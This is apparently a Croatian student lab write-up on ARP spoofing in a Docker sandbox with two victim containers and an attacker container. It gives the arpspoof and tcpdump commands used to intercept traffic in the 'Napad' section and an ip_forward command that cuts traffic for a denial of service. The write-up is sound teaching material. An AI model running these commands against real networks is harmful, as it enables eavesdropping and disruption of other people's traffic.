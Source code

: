 # Sigurnost računala i podataka

# LABORATORIJSKA VJEŽBA 1 - ARP SPOOFING

U okviru prve vježbe analizirali smo ranjivost ARP-koja napadaču omogućava izvođenje ***man in the middle*** i ***denial of service*** napada na računalima koja dijele zajedničku lokalnu mrežu(LAN).

![Untitled](Sigurnost%20rac%CC%8Cunala%20i%20podataka%20c78f3e9ee3e042fcba58b7d253374022/Untitled.png)

Napad je testiran koristeći 3 virtualizirana Docker računala: dvije žrtve station-1 i station-2 te napadač evil-station.

Budući da je vježba rađena na računalu sa Windows operacijskim sustavom, prvi zadatak bilo je pokretanje Ubuntu terminala koristeći WSL (Windows Subsystem for Linux).

Pozicioniravši se u odgovarajući direktorij, klonirani smo GitHub repozitorij sa potrebnim sadržajem.

```bash
git clone [https://github.com/mcagalj/SRP-2021-22](https://github.com/mcagalj/SRP-2021-22)
```

Potom smo bili upoznati sa skriptama koje su zadužene za pokretanje i zaustavljanje docker kontejnera.

**Pokretanje**

```bash
$ ./start.sh
```

**Zaustavljanje**

```bash
$ ./stop.sh
```

Idući korak bilo je pokretanje interaktivnog shella u station-1 kontejneru te provjera njegove konfiguracije mrežnog interface-a.

**Pokretanje shella station-1**

```bash
$ docker exec -it station-1 bash
```

**Provjera konfiguracije mrežnog interface-a**

```bash
$ ifconfig -a
```

Dobivši podatke o stationu-1, provjerili smo nalazi li se station-2 na istoj mreži kao i station-1 te smo pokrenuli interaktivni shell i za drugi kontejner.

**Provjera mreže**

```bash
$ ping station-2
```

**Pokretanje shella station-2**

```bash
$ docker exec -it station-2 bash
```

Koristeći **netcat,** ostavirili smo konekciju između station-1 i station-2 kontejnera. ****

**Station-1 → server na portu 9000**

```bash
$ netcat -lp 9000
```

**Station 2 → client na hostname-u station-1 9000**

```bash
$ netcat station-1 9000
```

# Napad

Bilo je potrebno pokrenuti interaktivni shell u evil-station kontejneru te pokrenuti arpspoof i tcpdump.

**Pokretanje shella evil-station**

```bash
$ docker exec -it evil-station bash
```

**Arpspoof**

```bash
$ arpspoof -t station-1 station-2
```

**Tcpdump**

```bash
$ tcpdump
```

Tcpdump nam je omogućio praćenje prometa. Posljednja naredba koju smo pozvali bila je ona kojom smo u potpunosti spriječili promet između stationa-1 i stationa-2.

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

# Zaključak

- Uspješnom ARP spoofing napadu prethodi narušavanje integriteta
- Netcat nije enkriptiran način komunikacije budući da smo uspješno vidjeli čitav sadržaj
